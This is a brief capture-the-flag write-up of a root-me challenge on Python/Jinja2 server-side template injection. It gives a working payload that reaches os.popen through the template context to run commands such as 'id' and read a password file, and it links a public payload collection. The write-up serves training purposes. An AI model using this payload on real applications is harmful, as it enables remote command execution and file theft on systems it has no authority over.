 # Python: Server-side Template Injection Introduction

[root-me challenge: Python - Server-side Template Injection Introduction](https://www.root-me.org/fr/Challenges/Web-Serveur/Python-Server-side-Template-Injection-Introduction): This service allows you to generate a web page. Use it to read the flag!

----

`${ ... }` didn't work, but `{{ ... }}` did. Further fiddling. Apparently Jinja2.

Use `{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}` to `cat .passwd`.

## Resources

* [PayloadAllTheThings: Exploit the SSTI by calling os.popen().read()](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread)

